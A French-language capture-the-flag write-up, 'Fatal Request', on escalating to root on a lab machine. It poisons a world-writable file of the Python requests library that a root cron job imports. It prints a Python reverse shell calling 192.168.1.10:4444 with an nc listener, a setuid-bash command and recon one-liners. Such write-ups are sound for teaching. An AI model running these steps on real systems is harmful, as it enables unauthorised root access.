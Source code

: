 # Write-Up - Pentest / Fatal Request

## Environnement

Une fois que l'on est sur la machine, on peut voir un message de Franck qui mentionne un script intéressant.

Après un peu de reconnaissance sur la machine on retrouve le fichier dans `/scripts/web_grabber.py`.

> One liner des enfer pour trouver les scripts sur une machine :
`for l in $(echo ".py .pyc .pl .jar .c .sh");do echo -e "\nExtension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`

Le *web_grabber* écrit son retour dans `/tmp/data.txt` et on peut voir avec le timestamp que le script est exécuté toute les minutes.

Cela nous pointe vers l'utilisation d'une tâche planifiée que l'on peut retrouver dans **crontab** sur la machine :

```bash
cat /etc/crontab
---
* * * * * root python3 /scripts/web_grabber.py
```

Le script est bien exécuté toutes les minutes par le compte root.

Il doit y avoir quelques chose à faire pour injecter une commande dans ce script...

## Exploitation de permissions

> TLDR: commande `find / -type f -writable 2> /dev/null` ou Linpeas pour trouver les permissions inappropriées sur la machine.

On sait que le script a des problèmes de permission sur lesquels on doit sûrement mettre le doigt.

Les droits en écritures sur le script ne sont accordés qu'à `root`, on ne peut donc pas modifier le contenu pour y ajouter une commande.

On peut vérifie les imports (indice dans le nom du challenge) et on vient tatonner du côté des librairies utilisées avec :

```bash
pip3 show requests
---
Name: requests
Version: 2.32.3
Summary: Python HTTP for Humans.
Home-page: https://requests.readthedocs.io
Author: Kenneth Reitz
Author-email: me@kennethreitz.org
License: Apache-2.0
Location: /usr/local/lib/python3.10/site-packages
Requires: certifi, charset-normalizer, idna, urllib3
```

On va donc naviguer dans les fichiers de la bibliothèque et on remarque qu'un des submodules de requests a des **permissions en écriture** par les utilisateurs.

```bash
ls -al /usr/local/lib/python3.10/site-packages/requests/
drwxr-xr-x 3 root root  4096 Mar 12 17:19 .
drwxr-xr-x 1 root root  4096 Mar 12 17:19 ..
-rw-r--r-- 1 root root  5072 Mar 12 17:19 __init__.py
[...]
-rw-r--r-- 1 root root 27451 Mar 12 17:19 adapters.py
-rw-r--rw- 1 root root  6449 Mar 12 17:19 api.py
-rw-r--r-- 1 root root 10186 Mar 12 17:19 auth.py
[...]
```

## Ajouter du code malicieux dans la bibliothèque requests

### Méthode 1

On ajoute dans la fonction `requests.get()` un reverse shell python :

```bash
import os,pty,socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.10",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("sh")
```

Et on attend qu'il revienne avec :

```bash
nc -lnvp 4444
```

### Méthode 2

On peut ajouter un bit setuid sur */bin/bash* pour pouvoir s'élever en root :

```bash
# adding suid to /bin/bash
os.system("chmod u+s /bin/bash")
# then launch bash with -p
/bin/bash -p
```

